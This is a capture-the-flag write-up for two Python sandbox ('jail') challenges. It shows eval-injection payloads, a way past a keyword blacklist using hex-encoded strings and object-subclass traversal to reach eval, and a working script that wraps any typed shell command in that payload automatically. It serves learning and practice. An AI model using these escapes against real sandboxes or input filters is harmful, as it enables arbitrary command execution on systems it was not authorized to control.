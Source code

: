 > Raj Pastagiya | 06/05/2023

# Breaking from jail1.py
- Looking into the code we see the eval() function and which will help us do the arbitrary command injection in through eval function. Based on [Hacktrickz](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) blog, we can easily use...
```python
__import__("os").system("cat ./flag1.txt")
```

# Breaking from jail2.py
- jail2.py has certain blacklisted words, which we can't use. But still we can leverage builtin functions in specific classes to do our work, without actually specifying the word itself. Or we can also use pre-encoded text as input to decoder as payload.

### Step-1: Using pre-encoded text in decoder based payload
- Here we can use hexstream as encoded text to the input to hexstream decoder. Below is the example of it:
```python
bytearray.fromhex('5f5f696d706f72745f5f28226f7322292e73797374656d28226c732229').decode()
...

# which is same as writing
__import__("os").system("ls")
# but in encoded form
```
- But this doesn't give us expected output, instead it just prints the ecoded text. So we need to use builtins with above.
- At the very least, the script is not detecting and comlaining about hacking, which can be useful.
### Step-2: Identifying builtin module that could contain eval function
- Here we meed to find builtin module which has "eval" function already available in it so we can all it for our purpose, and bypass the issue we faced earlier and run the eval funciton on our own terms.
- For this I found an interesting walkthrough of redpwn CTF [HERE](https://ctftime.org/writeup/16199) where all in all it says for an empty tuple, in subclasses of the tuple object, we needed to find **"warnings.catch_warnings"** object in which we can find required functions.
- The empty tuple way as he used in walkthrough didn't work here in our case, so we need to build our own payload searching for **"warnings.catch_warnings"** module in **\_\_builtins__** module's subclasses.
- We can list all the subclasses and also find the index of required module which in my case was 150. Now in that module we need to again get list of builtins and call the "eval" function.
```python
__builtins__.__class__.__base__.__subclasses__()[150]()._module.__builtins__["eval"](__import__("os").system("cat ./flag2.txt"))
```
- But above would be detected by the script as it contains blacklisted words, so again where ever we have blacklisted words, we need to use hexstream decoding technique.
- The final payload would look like below:
```python
__builtins__.__class__.__base__.__subclasses__()[150]()._module.__builtins__[bytearray.fromhex("65786563").decode()](bytearray.fromhex("5f5f696d706f72745f5f28226f7322292e73797374656d2822636174202e2f666c6167322e7478742229").decode())
```
- This will result in catting out the flag2.txt file.
- The beauty of above payload is that it is generic, meaning it will work in jail1.py too.

# Extra
- To avoid the hassel of doing all things again and again, I created a python script automate our work. You just need to put commands like `ls`, `cat ./flag2.txt` other things will be done by script.
```python
import subprocess

payloadseg1="__builtins__.__class__.__base__.__subclasses__()[150]()._module.__builtins__[bytearray.fromhex('65786563').decode()](bytearray.fromhex('"
payloadseg2 = "').decode())"
importPayloadseg1 = "__import__(\"os\").system(\""
importPayloadseg2 = "\")"
while True:
    child = subprocess.Popen(['python3', 'jail2.py'], stdin=subprocess.PIPE)
    cmd=input().strip().replace("\n", "")
    encodedPayload= (importPayloadseg1 + cmd + importPayloadseg2).encode().hex()
    # print(encodedPayload)
    finalPayload = payloadseg1 + encodedPayload + payloadseg2
    # print("Final Payload", finalPayload, sep=": ")
    output, err = child.communicate(finalPayload.strip().encode())
    print(output)
```
- **Note:** Ignore EOFError, as it comes from jail2.py while communicating via subprocess. We can even avoid it by adding exception handling in jail2.py.